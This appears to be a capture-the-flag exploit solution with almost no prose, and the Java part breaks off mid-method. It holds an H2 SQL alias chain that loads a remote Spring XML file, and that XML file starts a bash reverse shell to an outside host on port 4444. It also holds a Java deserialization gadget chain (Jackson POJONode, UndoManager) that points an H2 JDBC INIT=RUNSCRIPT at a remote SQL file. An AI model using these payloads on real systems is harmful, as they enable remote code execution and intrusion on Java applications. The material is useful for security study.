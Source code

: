 ```sql
CREATE ALIAS CLASS_FOR_NAME FOR 'java.lang.Class.forName(java.lang.String)';
CREATE ALIAS NEW_INSTANCE FOR 'org.springframework.cglib.core.ReflectUtils.newInstance(java.lang.Class, java.lang.Class[], java.lang.Object[])';
CREATE ALIAS UNESCAPE_VALUE FOR 'javax.naming.ldap.Rdn.unescapeValue(java.lang.String)';

SET @url_str='http://host.docker.internal:8000/evil.xml';
SET @url_obj=UNESCAPE_VALUE(@url_str);
SET @context_clazz=CLASS_FOR_NAME('org.springframework.context.support.ClassPathXmlApplicationContext');
SET @string_clazz=CLASS_FOR_NAME('java.lang.String');

CALL NEW_INSTANCE(@context_clazz, ARRAY[@string_clazz], ARRAY[@url_obj]);
```

evil.xml

```xml
<?xml version="1.0" encoding="UTF-8" ?>
    <beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
        <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
            <constructor-arg>
            <list>
                <value>bash</value>
                <value>-c</value>
                <value><![CDATA[bash -i >& /dev/tcp/host.docker.internal/4444 0>&1]]></value>
            </list>
            </constructor-arg>
        </bean>
    </beans>
```

反序列化 payload

```java
package exploit;

import challenge.MyDataSource;
import com.fasterxml.jackson.databind.node.POJONode;

import javax.swing.event.EventListenerList;
import javax.swing.undo.CompoundEdit;
import javax.swing.undo.UndoManager;
import java.util.Base64;
import java.util.Vector;

public class Main {
    public static void main(String[] args) throws Exception {
        UnsafeUtil.patchModule(Main.class);
        UnsafeUtil.patchModule(ReflectUtil.class);

        MyDataSource dataSource = new MyDataSource("jdbc:h2:mem:testdb;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://127.0.0.1:8000/wrong.sql'", "aaa", "bbb");
        POJONode pojoNode = new POJONode(dataSource);

        EventListenerList eventListenerList = new EventListenerList();
        UndoManager undoManager = new UndoManager();
        Vector vector = (Vector) ReflectUtil.getFieldValue(CompoundEdit.class, undoManager, "edits");
        vector.add(pojoNode);
        ReflectUtil.setFieldValue(eventListenerList, "listenerList", new Object[]{InternalError.class, undoManager});
```